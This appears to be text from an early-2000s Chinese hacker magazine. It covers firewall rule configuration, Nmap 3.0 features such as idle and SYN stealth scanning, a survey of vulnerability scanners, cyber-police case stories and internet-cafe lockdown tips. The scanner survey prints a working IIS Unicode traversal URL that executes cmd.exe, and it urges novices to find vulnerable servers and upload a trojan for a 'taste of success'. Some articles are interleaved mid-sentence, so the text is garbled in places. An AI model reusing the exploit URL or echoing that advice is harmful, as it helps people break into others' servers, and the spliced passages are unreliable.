要修改管控中心，进入“管控中心”页面，双击要修改的管控中心，会弹出相应的管控中心编辑对话框，修改后按“确定”按钮返回。此时，修改后的管控中心并没有被真正地保存和应用，要想保存和应用新添的管控中心必须按“应用”按钮。如果要撤销所做的修改，按“撤消”按钮。

要删除管控中心，进入“管控中心”页面，选中要删除的管控中心，按“删除”按钮，管控中心从列表框中被删除。但是，此时并没有真正从文件中删除，要想真正从文件中删除，必须按“应用”按钮。如果要撤销所做的修改，按“撤消”按钮。

在指定管控中心的时候，很可能会出现一条管控中心包含另外一条管控中心的情况。比如，首先制定了一条应用程序管控中心，应用程序为“*”，目的端口为80，用来限制HTTP服务；而接着又制定了一条规则，应用程序为“IE.EXE”，目的端口为80，用来限制IE的HTTP服务。很显然，第一条管控中心包含第二条管控中心。如果第一条管控中心编号小于第二条，则首先比较第一条规则，这就意味着第二条规则永远不会被使用；当第一条设置成拒绝，第二条设置成放行，这时IE同样会被拒绝，因为当比较第一条时，已经将连线拒绝了。所以在设计管控中心时，一定要注意规则的包含和比较顺序，因为这可能造成一些管控中心失效。

另外，在这里还可以制定时间类型和网络类型。

时间类型包括：

- 任何时间：任何时间，不可编辑；
- 工作时间：默认工作日的9点到18点，可自定义；
- 工作日业余时间：工作日的业余时间，可自定义；
- 周末：周末的全部时间，可自定义；
- 约束时间：拒绝时的时间，可自定义；
- 信任时间：放行时的时间，可自定义；
- 自定义时间：可自定义。

要设置时间类型，进入“管控中心”->“时间类型”->“选定要设定的时间类型”->“设定星期值”->“设定时间段”->“应用”。

注意：时间段采用24小时制式，开始时间和结束时间都为0时表示全天；开始时间小于结束时间时表示一天的头尾两个时间段。比如：18点~9点，表示一天中的18点~0点和0点~9点两个时段。

网络类型包括：

- 所有网络：所有IP地址；
- 局域网：默认IP地址范围192.168.0.0~192.168.255.255，可自行修改；
- 受约束的网络：默认无，可自行定义；
- 信任的网络：默认无，可自行定义；
- 自定义网络：默认无，可自行定义。

除了“所有网络”之外，其它的网络类型都可以自行定义。每一个网络类型可以定义多组IP地址段。使用“管控中心”->“网络类型”的“添加”、“修改”、“删除”按钮可以完成IP地址段的增加、修改和删除。

注意：网络地址段要求开始IP地址小于等于结束IP。当开始IP等于结束IP时表示只对这一个IP地址做限制。

费尔个人防火墙的系统日志和在线功能也是十分强大的。在主界面的“系统设置”中可以对系统日志进行进一步设置。在“在线资源”中，可以方便地手动或自动检查新版本。见图9。


当然，费尔个人防火墙也不是没有缺陷。它采用Winsock 2 SPI，对不使用Socket的网络通信无法拦截，比如：使用NetBios的网上邻居和使用ICMP协议的Ping；微软对SPI设计的问题，导致如果安装顺序出错，很容易造成网络瘫痪，这意味着如果同时安装几个使用SPI技术的软件，而且有使用非标准安装方式的软件，有的被绕过，或者不能正常网络通信。所以，建议编写SPI程序一定要用标准的安装方式。

费尔个人防火墙标准版出售源代码，详细信息请浏览该软件的网站http://www.xfilt.com。这就为用户的二次开发带来极大方便，用户可以开发出针对自己个体需求的防火墙软件。因为公开出售的防火墙软件，极易被黑客攻破，而用户自己开发的防火墙软件，采用的技术是针对个体的，黑客要攻破，是不容易的。这正如Linux操作系统比Windows操作系统相对安全一样，因为用户可以改变操作系统的内核。

## BEGINNERS'CLASS
### 栏目编辑：Derek (derek@hacker.com.cn)

Nmap, 也就是 Network Mapper, 是 Linux 下的网络扫描和嗅探工具包。可以帮助网管人员深入探测 UDP 或者 TCP 端口, 直至主机所使用的操作系统; 还可以将所有探测结果记录到各种格式的日志中, 为系统安全服务。最近 Insecure.org 推出了 Nmap 的一个重要的升级版本 Nmap 3.0。本期《黑防》抢先报告它的新功能, 为的是让广大读者先睹为快。

## Nmap 3.0 正式版
### 给我们带来了什么

文/mriss

Nmap 作为一款免费的网络安全扫描软件, 在网络的各个领域恐怕是无人不知无人不晓。Nmap 以它强大的功能, 出色的技术和性能赢得了网络各界的赞誉, 被 Linux Journal, Info World 和 Codetalker Digest 评为“年度最佳安全产品”。不止黑客们喜欢它, 它也是出色网络管理员们的制胜法宝。

2002 年 7 月 31 日 Insecure.org 推出了 Nmap 的一个重要的升级版本 Nmap 3.0。之所以说重要是因为 3.0 版本是自从 2000 年 5 月推出的 2.53 版本以后的第一个稳定版本, 我们很多人用的那个 2.54 Beta XX 都是用于测试的非稳定版本。3.0 还增加了许多实用的功能和改进了测试版本的一些不足, 所以我下面介绍的是 3.0 版本与 2.53 版本相比的一些重要改进。现在就让我们具体地来看看 Nmap 3.0 都给我们带来了什么改进。

新版本增加了远程主机协议扫描（-sO）, 使用这个选项可以让扫描者得到远程主机都支持哪些 IP 协议。例如大家再熟悉不过的 TCP、UDP、IGMP 等等很多协议, 这项功能可以帮助黑客们分析远程主机所运行的协议, 进而推断出远程主机可能的服务。

Nmap 的一项重要功能——通过 TCP/IP 指纹特征识别远程主机操作系统类别, 这也是为什么有那么多的忠实用户原因之一。黑客入侵最重要的一步就是判断远程主机上所运行的操作系统类型, 进而判断远程主机都有可能存在哪些漏洞并根据相应的系统特点采取不同的方法, 这是后续入侵的前提。到了 3.0 版本, Nmap 可以识别 700 多种不同的操作系统版本和网络设备（包括打印机、路由器）, 另外又加入了一些新的识别机制, 使识别率更高, 而且还会给出更加详细的版本信息, 并在原有的 -O 参数给出操作系统版本类别的基础上, 增加了探测远程主机从最近一次启动后到被 Nmap 扫描时工作了多长时间的功能（也就是所谓的 uptime）。还可以识别 2148 种不同的端口分配类型, 451 种 SunRPC 服务, 144 种 IP 协议。

通过增加 Idle 扫描模式（-sI）使扫描更加隐蔽, 使用的扫描的数据包可以轻易通过没有正确配置的防火墙和 IDS 系统, 并且数据包不会通过扫描者真实的 IP 地址发送, 防火墙那里记录的是攻击者在扫描时给出的伪造地址。而且通过这个, 攻击者可以试探都有哪些主机是被接受扫描的远程主机信任的, Nmap3.0 还使用了更智能的技术来避免使用未被分配的 IP 地址段来作为伪造地址。据 Insecure.org 称, Idle 是 Nmap 所有扫描模式中最隐蔽的。

增加了如 ICMP 时间戳（-PP）和子网掩码（-PM）ping 扫描方式, 时间戳扫描专门针对那些对普通 ping 扫描（-PI, ICMP echo request）不响应的主机。还可以在一次扫描指定端口中通过（-sSU）参数同时指定 UDP 和 TCP 协议的端口, 如 -sSU -p U:53,137,T:80,21,23,79。

通过几次的改进, Windows 下兼容性得到很大提高, 3.0 版本可以在 Windows 下正常工作了。过去比较老的版本在 Windows 下会有很多功能无法实现还有很多 Unix 下没有的 BUG, 要想在 Windows NT 下正常使用 Nmap, 还需要安装一个 Nmap Patch For NT。不过, 不管你装的是否是新版本, 都一定要装 WinPCap, 这是现在很多黑客工具的基础。Nmap 3.0 Windows 版本和 UNIX 下的一样以 3 种形式发布: 源代码包、已编

# 扫描器之种种

本期我们打算刊登几篇介绍扫描器的文章，以满足读者的要求。本文是对当前扫描器状况的简要介绍，以便让大家对扫描器有个整体的认识。

文/独行者


扫描器常常是针对服务器来说的，也是针对传统的手工查找而言。传统的手工查找不但速度过于缓慢，而且多数情况下只能针对某一个特定的漏洞——比如我们想知道一个主机是否含有 IIS 的 Unicode 二次解码漏洞，那么我们完全可以手工在浏览器中直接敲入 http://xxx.xxx.xxx.xxx/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir 之类的地址查看返回结果，这样就可以获知目标机器是否有 Unicode 二次解码漏洞了。但是，如果一个服务器有很多漏洞，或是未知的漏洞，那怎么办？于是我们要借助扫描器。

扫描器是一种快速寻找服务器系统相关漏洞的工具，它快速而且全面。通过它，黑客们可以根据自己的情况（比如带宽和系统资源），以他们自己喜欢的速度和方式来快速寻找系统漏洞——或者是服务器上软件的漏洞。多数扫描器可以同时扫描多种漏洞，很容易找到系统的漏洞和弱点，再不同于手工时代的扫描。黑客可以根据扫描器提供的漏洞报告和信息，采用合适的攻击方法攻击它——或是弥补（其实扫描器很多时候就是用在网络安全上的，也就是说，网络安全管理员和网络攻击入侵者同时都在用它，只不过着眼点不同而已！——一个重攻，一个重守）。

译的命令行包和一个 GUI 界面的包（NmapWin 将在后面简单介绍）。不过话又说回来，Windows 下的版本可是没有 UNIX 下那么稳定。另外，使用 Mac OS 的用户也可以体验一下 Nmap 的强大功能。

Nmap 是一项庞杂的工程，3.0 正式版并不代表 Nmap 已经很稳定、很完善了，世界上很多热心的高手们都加入了 Nmap 的这项计划。这项计划还在进行中，还有很多新的实用功能正处于开发和试验阶段。我们有理由相信，Nmap 将会发展成为全面的安全测试工具。

XML 作为一项通用的技术，很多领域和软件都支持，Nmap 也不例外。3.0 版本支持 XML 形式的扫描结果输出，使其他工具软件可以利用 Nmap 的扫描结果进行深一步的处理，具有良好的交互和协同性。

最新的 Nmap 版本和相关文档可以到 http://www.insecure.org/nmap 处下载，包括 GUI 版本 NmapWin 都可以在那里得到。另外，还可以到 http://sourceforge.net/ 搜索 Nmap 并下载，这里提供的 Nmap 版本很全。NmapWin 的资料可以参考：http://mypage.bluewin.ch/vogje01/e/nmapwin/help/nmapwin_help.html。

下面就来谈谈 Nmap 的 GUI 版本。Nmap 有很多 GUI 版本，如 NmapWin、Qnmap、Vnmap、Knmap，还有一款基于 Unix Web 的 Nmap-web。Windows 下的用户最好使用 NmapWin，因为它有一个很好的安装版本，不用编译，很方便。NmapWin 也尽可能提供了基于命令行的 Nmap 的绝大部分功能，但是有些参数还只能在命令行方式下才可以得到。

要想得到 Nmap 各个升级版本的详细改进，可以参考：http://www.insecure.org/nmap/data/CHANGELOG

## 一、Cerberus Internet Scanner(CIS)

这是新手喜欢的一款扫描器，主要运行在 Windows NT 和 Windows 2000 平台下面——因此它也主要是针对微软的 Windows 操作系统进行探测扫描的。它有很友好的 Windows 界面，很容易上手，而且它提供的安全漏洞也主要是 Windows 里常见的，大致有这么几种：万维网(WWW)、FTP 服务；MS SQL SERVER 数据库、NETBIOS、SMTP、POP3、RPCDNS 扫描；注册表设置、NT 服务漏洞等。总的说来还不错，在 Windows 这一部分扫描器中还算好！它被新手喜欢的另一原因就是操作很简单——你只要输入服务器的地址，再选择一个漏洞就好了，扫描完成后，会给你一个后缀为 HTML 的扫描报告。

CIS 功能里的 NETBIOS 共享扫描是本人觉得最好的，它能根据 NETBIOS 的漏洞作出 NETBIOS 资源信息、共享资源、计算机用户名、工作组和薄弱的用户口令等详细的扫描分析——说是薄弱的，据我看，好像不是太“薄弱”！

## 二、流光

一直就比较喜欢小榕的软件，觉得它有一种很强的亲和力——功能强大、全面，而且操作简单！一般才接触扫描器的朋友都喜欢用它，它的 FTP 和 SQLCMD 功能是很强大的，在用的时候要注意好好利用！由于大家都比较熟，我就不再婆婆妈妈了。

不过它的重点好像不在扫描，我用它的时候觉得它的破解和攻击成分很重，却没有很详细的对目标系统的扫描分析，所以有人在网上说它是一个“涵盖扫描功能的强大破解软件”！建议刚学扫描的朋友就从它入手吧！能找到一两台有漏洞的服务器，再传个木马什么的上去，让你先尝点甜头嘛！给你点激情，你才好学呀（不过，千万要小心）！

## 三、NSS

NSS 的全名是“网络安全扫描器”，是用 Perl 语言编成的，具有匿名 FTP、NSS 出口、TFTP、HOSTS.EQUIV(需要你要有最高的权限)、xhost、appletalk 扫描等功能，还能对 LAN 局域网和子网扫描，功能很强大，也很齐备。它的工作过程大概有这样几步：

- 取得指定域的列表或报告；
- 用 Ping 命令确定指定主机是否是活性的；
- 扫描目标主机的端口；
- 报告指定地址的漏洞。

下载后就可用——如果你能改改参数，让它随着你的意愿工作，那会更好！

## 四、Nmap

Nmap 是在 Unix 系统下的一个扫描器，通过使用 TCP 协议栈指纹准确地判断出被扫主机的操作系统类型。Nmap 的不同选项和 -s 标志组成了不同的扫描类型，比如：一个 Ping-scan 命令就是“-sP”。使用 Nmap 进行单机扫描或是整个网络的扫描很简单，只要将带有“/mask”的目标地址指定给 Nmap 即可。地址是“victim/24”，则目标是 C 类网络，地址是“victim/16”，则目标是 B 类网络。另外，Nmap 允许你使用各类指定的网络地址，对所选子网下的主机进行扫描——比如：192.168.7.* 是指 192.168.7.0/24。

下面是它的主要功能：

Ping 扫描：入侵者使用 Nmap 扫描整个网络寻找目标。通过使用“-sP”命令，进行 ping 扫描。缺省情况下，Nmap 给每个扫描到的主机发送一个 ICMP echo 和一个 TCP ACK，主机对任何一种的响应都会被 Nmap 得到。

端口扫描(Port Scanning)：一个攻击者使用 TCP 连接的扫描很容易被发现，因为 Nmap 将使用 connect() 系统调用打开目标机上相关端口的连接，并完成 3 次 TCP 握手。黑客登录到的主机将显示开放的端口。

隐蔽扫描(Stealth Scanning)：如果一个攻击者不愿在扫描时使其信息被记录在目标系统日志上，TCP SYN 扫描可帮你的忙，它很少会在目标机上留下记录，3 次握手的过程从来都不会完全实现。通过发送一个 SYN 包（就是 TCP 协议中的第一个包）开始一次 SYN 的扫描。任何开放的端口都将有一个 SYN|ACK 响应。然而，攻击者发送一个 RST 替代 ACK，连接中止。3 次握手得不到实现，也就很少有站点能记录这样的探测。如果是关闭的端口，对最初的 SYN 信号的响应也会是 RST，让 NMAP 知道该端口不在监听。“-sS”命令将发送一个 SYN 扫描探测主机或网络。

UDP 扫描(UDP Scanning)：如果一个攻击者寻找一个流行的 UDP 漏洞，比如 rpcbind 漏洞或 cDc Back Orifice。为了查出哪些端口在监听，则进行 UDP 扫描，即可知哪些端口对 UDP 是开放的。Nmap 将发送一个 0 字节的 UDP 包到每个端口。如果主机返回端口不可达，则表示端口是关闭的。但这种方法受到时间的限制，因为大多数的 UNIX 主机限制 ICMP 错误速率。幸运的是，Nmap 本身检测这种速率并自身减速，也就不会产生溢出主机的情况。

操作系统识别(OS Fingerprinting)：通常一个入侵者可能对某个操作系统的漏洞很熟悉，能很轻易地进入此操作系统的机器。一个常见的选项是 TCP/IP 上的指纹，带有“-O”选项决定远程操作系统的类型。这可以和一个端口扫描结合使用，但不能和 ping 扫描结合使用。Nmap 通过向主机发送不同类型的探测信号，缩小查找的操作系统系统的范围。指纹验证 TCP 包括使用 FIN 探测技术发现目标机的响应类型。BOGUS 的标志探测，发现远程主机对发送的带有 SYN 包的不明标志的反应，TCP 初始序列号(ISN) 取样发现 ISN 数值的样式，也可以用另外的方式决定远程操作系统。

## 五、Strobe（超级优化TCP端口检测程序）

Strobe 是一个 TCP 端口扫描器，它可以记录指定机器的所有开放端口。Strobe 运行速度快（其作者声称在适中的时间内，便可扫描一个国家的机器）。它的主要特点是：它能快速识别指定机器上正在运行什么服务。Strobe 的主要不足是这类信息很有限，一次 Strobe 攻击充其量可以提供给“入侵者”一个粗略的指南，告诉什么服务可以被攻击。但是，Strobe 用扩展的命令行选项弥补了这个不足。比如，在用大量指定端口扫描主机时，你可以禁止所有重复的端口描述（仅打印首次端口定义）。其他选项包括：

- 定义起始和终止端口；
- 定义在多长时间内接收不到端口或主机响应，便终止这次扫描；
- 定义使用的 Socket 号码；
- 定义 Strobe 要捕捉的目标主机的文件。

## 六、SATAN（安全管理员的网络分析工具）

SATAN 是为 UNIX 设计的，它主要是用 C 和 Perl 语言编写的（为了用户界面的友好性，还用了一些 HTML 技术）。它能在许多类 UNIX 平台上运行，有些根本不需要移植，而在其他平台上也只是略作移植。但是在 Linux 上运行 SATAN 有一个特殊问题：应用于原系统的某些规则在 Linux 平台上会引起系统失效的致命缺陷；在 tcp-scan 模块中实现 select() 调用也会产生问题；如果用户扫描一个完整子网，则会引进反向 fping 爆炸，也即套接字(Socket) 缓冲溢出。但是，有一个站点不但包含了用于 Linux 的、改进的 SATAN 二进制代码，还包含了 diff 文件，这些条款可以在 ftp.lod.com 上发现，或者可以直接从 Sun 站点(sunsite.unc.edu) 取得 diff 文件：/pub/linux/system/network/admin/satan-linux.1.1.1.diff.gz。

SATAN 用于扫描远程主机的许多已知的漏洞，其中包括：

- FTPD 脆弱性和可写的 FTP 目录；
- NFS 脆弱性；
- NIS 脆弱性；
- RSH 脆弱性；
- Sendmail；
- X 服务器脆弱性。

SATAN 比一般扫描器需要更多一些的资源，尤其是在内存和处理器功能方面要求更高一些。如果你在运行 SATAN 时速度很慢，可以尝试几种解决办法，最直接的办法就是扩大内存和提高处理器能力。如果这种办法不行，我建议用下面两种方法：一是尽可能地删除其他进程；二是把你一次扫描主机的数量调低。

以上是目前扫描器的一些概况，介绍了一些常用的扫描器。希望大家多多实践，实践出真知！

# UNIX/GNU 资源下载网站集萃


- 1. 新丝(思)路 (http://freesoft.online.sh.cn:8888/)
该站点以 200M 与 Internet 骨干网联接。实际上，这是一个 HTTP 方式下的自由软件仓库，不用传统的 FTP 方式，主要基于安全考虑。这里有很多自由软件，包括：

- RedHat Linux: 大名鼎鼎的 RedHat Linux，应该不用介绍了吧？含最新的更新。
- RedHat Linux-7.x: RedHat Linux 7.3 光盘镜像。
- Mandrake Linux-8.2: Mandrake Linux 8.2 光盘镜像。
- SuSE: SuSE 的 Linux 8.0。
- Trustix: 像 OpenBSD 一样稳定安全的 Linux，Trustix 1.5。
- Astaro: 精简的 Firewall/VPN Linux，Astaro Linux 2.x。
- Linux Kernel: Linux 最新内核 2.2.x 和 2.4.x、2.5.x 及 Alan Cox patches。
- Linux Chinese: Linux 中文平台及软件。
- CLE Chinese: Linux Extensions——Linux 中文平台。
- Crash Recovery Kit: Linux 2.2/2.4 系统崩溃拯救。
- Immunix: 防止栈溢出/堆溢出/格式化字符串安全攻击的 Linux 发布。
- StarOffice/OpenOffice: Linux/Solaris/Windows NT 上的 Office，新增 OpenOffice 1.0 及其中文版。
- Linux Applications: Linux 上的应用软件，主要有 Oracle 8i/9i、DB2、PostgreSQL 7、MySQL 等。
- GNU: 著名 GNU 软件组织开发的软件库——含 Gnu/HURD。
- GTK: 图形界面库。
- GTK for Windows
- Apache: 著名的自由软件——Apache Web 服务器软件。
- FreeBSD: FreeBSD 4.5 CD image。
- OpenBSD: OpenBSD 3.1 CD image。
- GNU/Hurd: GNU 开发的基于 Mach4 的微内核操作系统。
- Minix: Minix 是 Linux 的祖先。
- Java: Linux 上的 Java 开发包。
- Solaris 8 x86/sparc: Solaris 8 for x86/sparc CD iso image files。
- Solaris freeware Sun: Solaris SPARC/x86 下编译好的自由软件。
- HP-UX freeware: HP-UX 下编译好的自由软件。
- IRIX freeware SGI: IRIX 下编译好的自由软件。
- AIX freeware IBM: AIX 下编译好的自由软件。
- CPAN: 正式的 Perl 源码库，应有尽有，不可胜数。

- 2. Linux 内核下载站（国外）
- (HTTP http://www.kernel.org/pub/ FTP ftp://ftp.kernel.org/pub/ )
提供全部的 Linux 内核及大量 Linux 工具软件和文档下载，内核版本从 1.0 到 2.5。

- 3. GNU's Not Unix! - the GNU Project and the Free Software Foundation (FSF) GNU's Not Unix!(http://www.gnu.org)
GNU 的官方网站，提供多语言支持。开始于 1984 年，旨在开发一个类似 UNIX 的，并且是自由软件的完整操作系统：GNU 系统。(GNU 是“GNU's Not Unix”的递归缩写，它的发音为“guh-NEW”)。各种使用 Linux 作为核心的 GNU 操作系统正在被广泛使用。虽然这些系统通常被称作“Linux”，但是严格地说，它们应该被称为 GNU/Linux 系统。

设有以下主要栏目：自由软件目录、GNU 软件、GNU 工程、软件许可、开发人员的资源、GNU 文档、其他文档、获得有关 GNU 软件的帮助、GNU 用户组、在线手册。

## 网络罪恶的克星

文/佐罗-xp


### ——网络警察

这是一群特殊的警察，一批身怀绝技的高手，他们以荧屏为战场，以键盘为武器，时刻与犯罪嫌疑人进行“短兵相接”；无需刀光剑影、无需擒拿格斗，凭借装满尖端科技的大脑，他们就可以将隐匿在浩瀚网络世界里的高智商罪犯捉拿归案。这就是“网络警察”，全称国际互联网安全监察专业警察，中国最年轻的警种。不过你可不要小看他们，他们是网上罪恶的克星！至于他们都做那些工作？请跟我一起去看看。

## 一、打击网上贩黄网站

由于网络传播影响范围广，隐秘性又相当强，“黄、赌、毒”等犯罪方式可通过各种方式隐藏在网络中，张开充满诱惑的大嘴，随时准备吞噬心存邪念的网民。

去年 11 月 27 日，公共信息网络监察处接到了一个匿名举报，举报人称他不久前上网时，进入一家色情网站，上面标明可以邮购色情光盘，因受其诱惑，他便按照网上列出的地址汇去了现金，不料钱寄出后却如石沉大海，杳无音讯，因此觉得上了大当，要求公安机关捣毁该网站。

由于举报人提供的汇款地址并不完整，无法追查，网络警察迅速利用高科技手段展开侦察，发现这一色情网站是建立在国外一家网站的免费主页上，隐蔽得相当巧妙。但网警们连夜奋战，很快就查出网页制作者住在 X 市 X 路 X 号。次日早晨，当网警们敲开陶某家大门时，陶某还在整理来自全国各地的汇款单，做着发财的美梦。警方当场就缴获了淫秽光盘 10 余张。而在陶某记下的账单上，有着数 10 名各地的求购者。一张成本只有 3 元的光盘，陶某在网上的开价竟要卖到 100 元，短短两个月里，他就已卖出百余张淫秽光盘，获利上万元。

在审讯中陶某交代，因为他贩卖的是淫秽光盘，所以买家即使发现有质量问题，也羞于启齿，不可能进行追查，有时他干脆只收钱不发货，利用部分网民的邪念发大财。

## 二、打击网络诈骗犯罪

有人说：“在网络上，没人知道你是谁。”一些犯罪分子利用网络身份的隐蔽性，乔装打扮一番后进行诈骗抢劫，但再狡猾的狐狸也斗不过好猎手，“网络警察”凭借高科技手段，将网上的“狼外婆”一个个揪了出来。

去年 7 月，上海宝山区内连续发生数起抢劫案。歹徒专门在偏僻路段拦截中小学生，尔后挟持他们至其家中抢劫。奇怪的是歹徒对这些学生家中的情况非常了解：大人何时在家、家中有些什么贵重的物品都了如指掌，但警方对案件的分析后，又排除了熟人作案的可能性。到底会是什么呢？宝山警方在调查中发现，几名被害人都喜欢上网聊天，并曾向网友透露过家中的情况，警方仔细核对后，发现这些小网迷都曾和一个网名叫作“浪里白条”的网友聊过天。显然，“浪里白条”有作案重大嫌疑！

但“浪里白条”只是个虚拟的网名，“他”到底是男是女？是独自一人，还是团伙作案？如何查找他的下落？警方一时无从下手。此时，“网络警察”出动了，他们立即对“浪里白条”进行跟踪。不久，“浪里白条”“浮”出水面，开始在网上频频约会女孩。“‘浪里白条’正在杨浦区一家个体网吧上网！”宝山警方迅速出击，终于将正在网上寻找下一个目标的“浪里白条”柏某抓获。

## 三、打击网络黑客活动

网络世界包罗万象，成为不少人宣泄欲望，实现所谓成就的地方，而“黑客”就是其中的代表，与“黑客”们的斗智斗勇是“网络警察”的家常便饭。去年国庆节，“网络警察”在对主要网站例行“巡逻”时，突然发现某媒体的网站已被“黑客”攻击，网站主页一片漆黑，上面还用红字反复写明“此网站已经被黑！”下方留有一个网名。

“网络警察”通知该网站的负责人后，迅速赶到现场帮助网站恢复主页。与此同时，那名“黑客”仍然疯狂地对网站进行恶意攻击，“网络警察”采取果断措施，将“他”一脚“踢开”，接着协助网站弥补网页上的漏洞。

网警随后开始了紧张的调查，一天后就确定“黑客”来某区某居民楼内，网警随即驱车来到该住址，但该户人家却是“铁将军把门”。据邻居介绍这家3口人都去走亲戚了。“一定要看看这名‘黑客’的真面目！”网络民警在其家门口守候伏击了整整一个晚上，直到第二天中午，这家人终于回来了。网警们冲入室内，就见电脑前铺满网上下载的黑客材料，电脑内满是各种黑客攻击软件。而让网警们吃惊的是，这名“黑客”竟然是一名初二学生。其父母在得知平时沉默寡言、胆小怕事的孩子竟然是一个“黑客”时，惊得目瞪口呆，没想到让孩子使用电脑竟会导致犯罪。

## 四、救助无辜少女

网络世界是另一个人生舞台，每时每刻都在上演着悲剧喜剧，当有人将之作为发泄仇恨、进行报复的途径时，他就走到了犯罪的边缘。

去年8月下旬，一对焦急的父母向“网络警察”求助，其女儿是某大学即将毕业的学生，但近日不知得罪了谁，有人竟将女儿的个人资料挂在某网站上，同时还附上了一篇充满人身攻击、内容不堪入目的文章。由此，学校里流言蜚语四起，女孩心理受到极大的打击，甚至萌发轻生的念头……

这到底是真是假？人命关天，网警们立即开展“网上营救”行动。他们一边想方设法和女孩的学校取得联系，证实确有此事；一边又根据女孩提供的线索，追查那名造谣中伤者。几经辗转，“始作俑者”终于现身，原来他是女孩一名中学同学，因曾追求女孩遭到拒绝，遂由爱生恨，利用网络大肆造谣，对女孩百般辱骂。最终，此人被绳之以法。

## 五、追踪“爆炸”案

不要以为网警们整天坐在办公室里，对着电脑，点点鼠标是件轻松的事，要知道，网络上随时会爆发令人震惊的事件。

“今晚，我要制造一起爆炸！”几年前的一个早晨，网上突然出现这则耸人听闻的消息。有个网民在声泪俱下叙述了自己的爱情故事后，叫嚣着要和他移情别恋的女友同归于尽，而且准备当天晚上在车站制造爆炸。

当这个十万火急的消息传来时，离“预定”爆炸的时间已不到8小时。网警们立即紧张地展开网上监控，这名疯狂的网民终于露出真面目。

当汗流浃背的民警冲入房间时，这名高中生却轻描淡写地说：“我是因为无聊随便编个故事玩玩的，想不到惊动了警方。”最后，这位刚成人的网民受到了应有的处罚。

网络世界没有下班的时间，这要求“网络警察”也必须不间断地对“网络治安”进行“巡逻”。在打击种种网络犯罪的同时，网警们还肩负着各种职责：他们每天都要对成百上千的重要机构的网站进行巡查；要对党政机关、金融、重点生产部门、通讯等单位的计算机网络进行安全保护；要对网吧的信息安全巡查；要及时了解最新的病毒情况，广泛宣传病毒防范措施；在“网络警察”的眼里，一次病毒侵袭带来的灾难，绝不亚于一场火灾。

很多时候“网络警察”要干不少份外活，由于有些“黑客”还是未成年的孩子，“网络警察”在将其“抓获”后，还经常上门“家访”进行教育；有时候他们还会帮助家长们寻找走失的孩童。

IT技术的时刻更新要求“网络警察”必须及时掌握尖端技术，网警们告诉大家：社会上的各种网络培训班里教授的知识对他们而言早就已过时，“我们面对的都是高智商的对手，要战胜他们，必须‘道高一尺’。”网警提高的途径也是通过网络，在网上和国内外同行、网络安全专家不断交流，通过网络学习最新最实用的技术，确保公共信息网络的安全。

# 请网吧管理软件下课

文/ttian.net

## 前言

现代社会上网冲浪已经成为了一种时尚，随之网吧也如雨后春笋般出现在大街小巷，网吧的大量涌现大大地方便了人们上网。而网吧作为一处公共上网场所，不同于大家在家上网，这里的不同指的是网吧对电脑的管理，你自己在家上网恐怕不会给自己的电脑加任何限制，但如果在网吧上网，那么对网吧电脑的使用就要受到一些限制了!

网吧的电脑作为一种服务性质的电脑，具有公用性，在使用中，难免会遇到有些人对其进行误操作或出于好奇及其他原因而进行的破坏。如果不采取任何防护措施的话，一旦因为有意或无意的人为或其他因素导致电脑出现故障，都会给网吧带来或大或小的损失，导致时间或金钱的浪费。网吧的管理一直以来困扰着众多的网吧管理员，无奈之下，大多数网吧都是以安装硬盘保护卡或网吧管理软件来管理网吧。这样不失为一种管理模式，但笔者认为这并不是惟一的，也不一定是最好的管理模式，因为购买硬盘保护卡或网吧管理软件会提高网吧的成本，且有些管理软件会自定义电脑桌面，改变桌面的原貌，这对于用惯了Windows的朋友来说无疑会产生不便，进而产生厌烦。况且现在的管理软件大多都有相应的破解，一旦被破解，管理软件就形同虚设了。那么，有没有一种理想的管理模式可以弥补以上的不足呢？今天就为大家介绍一套笔者在多年的网吧管理中总结出来的网吧管理模式，供大家参考。

## 操作篇

首先要声明的一点是下面要介绍的一系列内容都是建立在Windows 2000/XP(下面简称2000/XP)操作系统之上的，对于Windows 9x以下或其它操作系统不适用。其实本文的中心就是讲述怎样运用Windows 2000/XP自身的功能来实现我们想要达到的目的! 其中包括后面都将讲到的对“安全”选项的运用；对注册表的运用以及 Windows 2000/XP 其他特性的运用!

### 安装系统

在安装 Windows 2000/XP 系统的时候，注意一定要把磁盘格式设为 NTFS 格式，我们以后对磁盘和文件夹加锁功能就建立在此磁盘格式的基础之上。因为 NTFS 磁盘格式不同于 FAT 磁盘格式，所以采用NTFS磁盘格式可以抵御大部分 Win32病毒(不包括邮件型蠕虫病毒)，NTFS 本身就相当于一个病毒防火墙。这里笔者还推荐大家在为磁盘分区时，最好给 Windows 2000/XP 的系统盘(C:)分配 3G~5G；D盘 10M；剩余的空间化为一个区即可。Windows 2000 系统外加一些软件 3G 空间足够；XP 比 2000 要大一些，所以要多分配一些空间；D盘据笔者平常观察留 10M 足够了，留多了也是浪费。这样分配可以合理利用磁盘资源。

系统装好后，我们先要作一些修补工作，微软的网站上提供了很多升级程序和补丁，刚装好的系统漏洞很多且性能也不是最佳的，所以我们要对系统先进行升级。Windows 2000 建议更新安装 IE 6.0、Service pack2 和可用驱动程序及一些重要更新；XP 建议安装所有可用更新。这样做，从安全角度来讲是很必要的，而且建议定期对系统进行更新，以保持系统的高性能和安全性!

### 新建账户

Windows 2000 系统装好后，我们只能以超级用户(administrator)的身份登陆，XP 与 2000 有所不同，在第一次进入 XP 时，XP 会请你建立一个账户，这个账户拥有超级用户权限，但不是真正的超级用户，真正的超级用户只能在安全模式下登陆。第一次进入 2000/XP 后我们都要新建一个账户(这个新用户以下都以 user1 代表)，这个账户就是以后对上网者开放的账户，上网者以后只能登陆这个账户，并在其中活动! 我们暂时把这个账户的权限也设为超级用户。其作用笔者会在后面讲述。

### 安装常用软件

现在我们可以安装一些必备的软件了(在第一次登陆的这个超级用户中安装)，我们可以依据网民的需要安装一些常用的软件以方便人们上网。比如说聊天工具、股票分析软件、看图工具等，种类和数量不要太多，够用就行，太多了就显得杂乱无章且浪费磁盘空间。有的软件可以自动在桌面生成快捷方式，不能自动生成的要手动生成一个。这里有一个软件是必须要安装的，那就是 Windows 优化大师(以下简称优化大师)，这个软件在大部分下载站点都有提供。它的任务主要是完成对注册表的设置，虽然我们可以手动设置注册表，但是对于不熟悉注册表的人来说，这样做会很危险，也很麻烦，所以我们借助这个软件来完成下面的对注册表的设置。然后我们要到 “C:\Documents and Settings\Administrator\ 桌面” (XP 中要把 Administrator 换成首次登陆自建的那个用户) 中去，这里存放着超级用户桌面上你刚刚装好的所有软件的快捷方式。拷贝它们(不包括优化大师)，把它们复制到 “C:\Documents and Settings\user1\ 桌面” 中去。这样，在 user1 中的桌面上就可以对应的出现这些快捷方式了，并且其对应的软件在 user1 